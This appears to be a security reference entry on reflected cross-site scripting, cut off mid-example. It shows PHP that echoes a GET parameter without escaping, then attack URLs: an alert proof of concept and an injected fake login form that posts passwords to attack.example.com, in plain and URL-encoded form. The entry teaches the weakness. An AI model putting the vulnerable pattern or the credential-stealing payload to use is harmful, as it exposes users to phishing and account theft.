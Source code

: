 
Likelihood Of Exploit: High


Demonstrative Examples


```php
// Example 1
// This code displays a welcome message on a web page based on the HTTP GET username parameter. This example covers a Reflected XSS (Type 1) scenario.
// Example Language: PHP 

$username = $_GET['username'];
echo '<div class="header"> Welcome, ' . $username . '</div>';

// Because the parameter can be arbitrary, the url of the page could be modified so $username contains scripting syntax, such as

(attack code)
http://trustedSite.example.com/welcome.php?username=<Script Language="Javascript">alert("You've been attacked!");</Script>

// This results in a harmless alert dialogue popping up. Initially this might not appear to be much of a vulnerability. After all, why would someone enter a URL that causes malicious code to run on their own computer?
// The real danger is that an attacker will create the malicious URL, then use e-mail or social engineering tricks to lure victims into visiting a link to the URL. When victims click the link, they unwittingly reflect the malicious content through the vulnerable web application back to their own computers.


// More realistically, the attacker can embed a fake login box on the page, tricking the user into sending the user's password to the attacker:

(attack code)
http://trustedSite.example.com/welcome.php?username=<div id="stealPassword">Please Login:<form name="input" action="http://attack.example.com/stealPassword.php" method="post">Username: <input type="text" name="username" /><br/>Password: <input type="password" name="password" /><br/><input type="submit" value="Login" /></form></div>

// If a user clicks on this link then Welcome.php will generate the following HTML and send it to the user's browser:

// (result)

<div class="header"> Welcome,
	<div id="stealPassword"> Please Login:
	<form name="input" action="attack.example.com/stealPassword.php" method="post">
		Username: <input type="text" name="username" /><br/>
		Password: <input type="password" name="password" /><br/>
		<input type="submit" value="Login" />
	</form>
	</div>
</div>

// The trustworthy domain of the URL may falsely assure the user that it is OK to follow the link. However, an astute user may notice the suspicious text appended to the URL. An attacker may further obfuscate the URL (the following example links are broken into multiple lines for readability):

(attack code)

trustedSite.example.com/welcome.php?username=%3Cdiv+id%3D%22
stealPassword%22%3EPlease+Login%3A%3Cform+name%3D%22input
%22+action%3D%22http%3A%2F%2Fattack.example.com%2FstealPassword.php
%22+method%3D%22post%22%3EUsername%3A+%3Cinput+type%3D%22text
```

[^top25_software_errors]: top25_software_errors, https://www.sans.org/top25-software-errors/